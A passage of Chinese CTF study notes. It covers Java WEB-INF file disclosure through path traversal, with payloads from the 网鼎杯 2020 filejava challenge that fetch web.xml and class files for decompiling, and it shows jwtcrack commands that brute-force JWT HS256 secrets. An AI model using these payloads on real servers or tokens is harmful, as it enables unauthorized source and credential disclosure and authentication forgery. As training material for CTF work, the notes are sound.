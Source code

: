 WEB-INF 主要包含一下文件或目录:

    /WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
    /WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中
    /WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
    /WEB-INF/src/：源码目录，按照包名结构放置各个java文件。
    /WEB-INF/database.properties：数据库配置文件
    漏洞检测以及利用方法：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码

构造 PAYLOAD:

    filename=WEB-INF/classes/com/wm/ctf/FlagController.class

`[网鼎杯 2020 青龙组]filejava`

```
    ../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/web.xml
    <servlet>
        <servlet-name>UploadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.UploadServlet</servlet-class>
    </servlet>
    访问servlet,下载反编译
    ../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/classes/cn/abc/servlet/UploadServlet.class
```

## Java 反序列化

[一道关于 Java 反序列化的 CTF 题-东华杯 ezgadget](https://www.bilibili.com/video/BV1qb4y187FA)

# 其他内容

## JWT

http://jwt.io
工具： https://github.com/brendan-rius/c-jwt-cracker

3 部分构成：

```json
{"alg":"HS256","typ":"JWT"}{"username":"123456"}wÈRîwqerwqe
1. 算法 2. payload 3. 签名
```

```
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiMCI6IiIsImp0aSI6IjgxOTFjOGVjMzA0ZTYxMDhlYmJhODJmZDEzM2IxMDAzIn0.eLzDmGFdvvALEZ4UR1ZSj21ZmW23W2oC5h3jRudNldc 0123456789 6
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
```

## .git 泄漏

扫描 发现 .git 目录，
